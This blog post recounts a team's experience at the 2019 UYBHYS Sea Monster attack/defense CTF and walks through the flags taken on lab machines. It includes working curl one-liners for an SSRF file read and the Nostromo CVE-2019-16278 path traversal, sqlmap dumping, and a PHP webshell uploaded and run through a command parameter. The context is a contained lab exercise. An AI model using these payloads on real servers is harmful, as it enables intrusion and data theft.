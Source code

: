 +++
title = "UYBHYS - Sea Monster Attack & Defense CTF"
date = "2019-06-22"
description = ""
[extra]
cover.image = "images/SeaMonster/SeaMonsterBanner.png"
cover.alt = "UYBHYS - Sea Monster Attack & Defense CTF"
+++

Last week-end I teamed up with members from [Aperikube](https://www.aperikube.fr) for an Attack/Defense CTF which took place in Brest - France. In this "small" blog post I will write about this experience, the challenges and our methodology :)

![Banner]({{ site.baseurl }}/images/SeaMonster/SeaMonsterBanner.png "Banner"){: .center-image }

<!--more-->

Rules & informations about the CTF are available in the following PDF : [CTF_UYBHYS.pdf]({{ site.baseurl }}/files/CTF_UYBHYS.pdf)

## CTF Architecture

All teams had the same virtual machines to secure and attack.

- bastion.unlock.ctf : 172.16.1.20
- www.unlock.ctf : 172.16.1.10
- plc.unlock.ctf : 192.168.12.10
- win.unlock.ctf : 192.168.0.10
- fw.unlock.ctf (PfSense)

These machines host some services such as Web Servers, RDP etc... We had access to the source code of the binaries and the URL alive.unlock.ctf displayed the status of all teams services. In the following picture you can clearly see Team08 and Team10 didn't patch their RDP.

![Alive]({{ site.baseurl }}/images/SeaMonster/SeaMonsterAlive.png "Alive services"){: .center-image }

In the first 30 minutes we could access our machines and secure them without losing any points, then the scoreboard will update every 20 seconds to decrease your point if a service is down, you also loose point when a team is stealing one of your flag. Based on what we had we mapped the services linked to a flag and 2 columns to check if they were patched and/or exploited.

```sql 
PORT      STATE    SERVICE       REASON         VERSION                             PATCHED     EXPLOIT
53                               Bastion        bind                                OK          OK       SSRF/zone
25/tcp                           PLC            vplc ESMTP Postfix (Debian/GNU)     OK     
80/tcp    open     http          Web            nginx 1.6.2                         OK          OK       sql    TODO RCE
502/tcp   open     modbus        PLC            Modbus TCP                          OK          OK       Modbus    
3232/tcp  open     http          Web            nostromo 1.9.6                      OK          OK       DirTravRCE        
3389/tcp  filtered ms-wbt-server Win                                                     
4141/tcp  open     oirtgsvc?     Bastion        whoareyou                           OK                   BOF ? 
4242                             Bastion                                            OK              
8080/tcp  open     http          Bastion        Apache httpd 2.4.10 ((Debian))      OK          KO       MySQL ?
9090/tcp  open     http          Web            nginx 1.6.2                         OK          OK       LDAP inj
45454/tcp open     unknown       Bastion        exploit 
```  


It was possible to trade some points for hints and insights in the Black Market, however nothing is guaranted: flags and hints might be wrong or misleading. We took the $0 trade, this gave us a list of the teams and their corresponding sea monster : 

```sql 
TEAM1-CRABAL
TEAM2-MEDUSA
TEAM3-STARKA
TEAM4-PIKOR
TEAM5-PONIK
TEAM6-BALENOR
TEAM7-KRAKEN
TEAM8-SQUIDO
TEAM9-HYDROL
TEAM10-SHARKY
TEAM11-POULPY
TEAM12-GUMPAL
TEAM12-SNAKUS
TEAM14-MORSOS
TEAM15-RAYMOL
```


## win.unlock.ctf

I wasn't paying attention when the organizers told us the account was not `user` as stated in the PDF but in fact `Administrator`. Missing this information, made me try to exploit the machine in order to get an NT AUTORITY SYSTEM shell, I went to the easy path `Eternal Blue`.

![Windows Eternal Blue]({{ site.baseurl }}/images/SeaMonster/SeaMonsterWin.png "Windows Eternal Blue"){: .center-image }

### RDP - 3389

However the SMB service was not forwarded by the firewall and we couldn't exploit the service, it seems the intended way was to use `Bluekeep` as the RDP was checked by the bot and the team lose some points until we opened a Port Forward rule.

![Firewall]({{ site.baseurl }}/images/SeaMonster/SeaMonsterFirewall.png "Firewall services"){: .center-image }


## plc.unlock.ctf 

### Modbus - 502

This machine was an easy win, we used [plcscan](https://github.com/meeas/plcscan) to scan the Modbus service on port 502, the PLC description contained the flag.

![Modbus]({{ site.baseurl }}/images/SeaMonster/SeaMonsterModbusScan.png "Modbus services"){: .center-image }

![PLC]({{ site.baseurl }}/images/SeaMonster/SeaMonsterPLC.png "PLC description"){: .center-image }

```sql 
team02.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{bda1c2b26927c2ac87e084fc5} 
team03.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{7ec413a0d19bf0a59a95d8874} 
[...]
team14.ctf:502 Modbus/TCP
  Unit ID: 0
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
  Unit ID: 255
    Device: diateam diateam virtual plc v42.1337 UYB{3e710c7179074e1a62be9de88} 
```

## bastion.unlock.ctf

### SSRF - Port 8080

The web server on port 8080 allows the user to ping a machine, we runned the `grep` binary on the entire disk to find files containing flags and used the SSRF to display them with `http://team14.ctf:8080/index.php?ip=file://PATH_TO_FILE`.

It appears we could read the file `file:///etc/bind/zones/unlock.ctf.db`, so we scripted the exploitation of this challenge, however this was the flag for the `Port 53`...

```bash 
for i in `seq 1 15`; do echo "Team"$i; curl -s http://team0$i.ctf:8080/index.php?ip=file%3A%2F%2F%2Fetc%2Fbind%2Fzones%2Funlock.ctf.db | grep UYB; done
```

![Bind]({{ site.baseurl }}/images/SeaMonster/SeaMonsterWWWssrfpath.png "Bind"){: .center-image }

We made the mistake to assume a simple filter like `$ip[0] == "1"` would be enough to stop any exploitation on our machine, however we missed the critical point. Another service was available on port 6666, which would display the content of the file using a specificly crafted URL. We saw the exploit in our logs and replayed the URL on the other team to get more flags.

## www.unlock.ctf 

### Nostromo - Port 3232

We used the CVE-2019-16278 to exploit the Nostromo service on the web machine.

```bash 
$ for i in `seq 1 15`; do echo -n "Team"$i; curl -s "http://team0$i.ctf:3232//.%0D./.%0D./.%0D./.%0D./var/nostromo/conf/flag.txt" | grep UYB; done

[...]
Team2 UYB{bcf13245517c9fb5158719cec}
Team3 UYB{b454ae20caa9b07ab4e2c3c01}
Team4 UYB{41c0136228d5a7db614f89431}
[...]
```

Our patch might have been the worst of all patch history, we made a copy a the current index page with `curl` and then replaced the nostromo service with a `python -m SimpleHTTPServer 3232`. Dirty but efficient !

![Trade]({{ site.baseurl }}/images/SeaMonster/SeaMonsterTrade.jpg "Trade"){: .center-image }

### Custom website - Port 80 

First part of the exploitation was to create an account to access the website and find the SQL injection. The exploitation doesn't need to be logged in, the flag was stored as a plaintext password for the administrator. `SQLmap` and simple `for` loop were enough to exploit the vulnerability and dump the users table.

![SQL]({{ site.baseurl }}/images/SeaMonster/SeaMonsterSQL.png "SQL"){: .center-image }

The website contains multiple vulnerabilities, once logged as admin we can access the upload page, even though the HTML upload part was commented. 

![UPLOAD]({{ site.baseurl }}/images/SeaMonster/SeaMonsterWWWuploadcode.png "upload"){: .center-image }

The PHP backend is doing some checks but it is not enough to prevent the upload of a PHP file in the images directory, we used a payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20Metadata/PHP_exif_system.jpg) and then executed our commands with `http://team12.ctf/images_import/PHP_exif_system.php?c=whoami`. Unfortunately the CTF ended when we got our command exec... (otherwise we might have been able to exploit EternalBlue against the Windows machine and grab the flag located in C:\flag).

Even if you had patched these vulnerabilities in the website, there were two backup folders `site.bak` and `site_save` to remove.

![Backup]({{ site.baseurl }}/images/SeaMonster/SeaMonsterWWWtree.png "Backup"){: .center-image }

## Final Thought

The CTF was great, the infrastructure worked flawlessly and the challenge difficulty was balanced enough to let the team understand, patch and exploit them during the 5 hours timeframe. We finished 1st but I would like to thank all the teams for their fair-play and the organisers for the event. Also thank you to the different sponsors ;)

![Scoreboard]({{ site.baseurl }}/images/SeaMonster/SeaMonsterScoreboard.jpg "Scoreboard"){: .center-image }
